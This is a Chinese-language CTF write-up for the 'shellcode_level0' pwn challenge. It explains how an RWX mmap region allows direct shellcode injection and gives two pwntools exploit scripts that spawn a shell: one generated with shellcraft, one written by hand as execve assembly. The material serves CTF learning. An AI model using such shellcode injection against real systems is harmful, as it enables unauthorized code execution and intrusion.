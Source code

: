 # Basectf pwn方向“shellcode_level0”

题目的提示很明显，就是shellcode，反编译发现直接通过mmap函数输入,权限为7，所以直接注入shellcode就行

```python
from pwn import *
p = process('./shellcode_level0')
p.send(asm(shellcraft.sh()))
p.interactive()
```

## asm(shellcraft.sh())

`shellcraft.sh()`是一个生成shellcode的函数;`asm()`函数将shellcode汇编成机器码。

## mmap()

`mmap()`的函数原型是`void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);`

- **void addr** 指定内存映射区的起始地址。通常设置为NULL,让系统自动选择合适的地址。如果指定地址，需要确保地址对齐，并且有足够的空间
- **size_t length**:映射区的长度，以字节为单位
- **prot**:指定内存区域的保护属性
  - PROT_READ：区域可读(0x1)
  - PROT_WRITE：区域可写(0x2)
  - PROT_EXEC：区域可执行(0x4)
  - PROT_NONE；区域不可访问
- **flags**:指定映射对象的类型和可见性
  - MAP_PRIVATE：创建一个写入时复制（copy-on-write）的私有映射。对映射区域的修改不会反映到原始文件中。（0x02）
  - MAP_SHARED：创建一个共享映射。对映射区域的修改会反映到原始文件中。(0X01)
  - MAP_ANONYMOUS：创建一个匿名映射，不与任何文件关联（0x20）
- **fd**: 文件描述符，用于指定要映射的文件。如果使用MAP_ANONYMOUS，则此参数通常设置为-1
- **offset**：文件中的偏移量，指定从文件的哪个位置开始映射。通常需要是页大小的整数倍

这道题的mmap函数调用为`buf = mmap(0LL, 0x1000uLL, 7, 34, -1, 0LL)`

让系统自主选择地址

映射区长度为0x1000uLL（4096字节）

保护属性为7（PROT_READ | PROT_WRITE | PROT_EXEC）：可读可写可执行

flags为34（MAP_PRIVATE | MAP_ANONYMOUS）：创建一个私有的匿名映射

## 手写shellcode

```python
from pwn import *
p = process('./shellcode_level0')

shellcode = asm('''
    mov rax,0x68732f6e69622f
    push rax
    push rsp
    pop rdi
    push 0x3b
    pop rax
    xor esi, esi
    xor edx, edx
    syscall
''')

p.send(shellcode)
p.interactive()
```

## 这里为什么是send而不是sendline

其实写sendline也没问题，不会影响这个脚本的运行,如果深究的话，我认为是这些原因

1. 发送的是shellcode：`asm(shellcraft.sh())`生成的是机器码（二进制数据），而不是文本命令。shellcode通常不需要换行符来触发执行，因为它本身就是一段可执行的机器指令
1. 精确控制数据：使用send可以确保发送的数据完全是你生成的shellcode，没有任何额外的字符（如换行符）被添加。这可以确保shellcode正确执行。

*注意，有些题目写send或sendline得到的结果是完全不同的，但后面遇到再说吧*.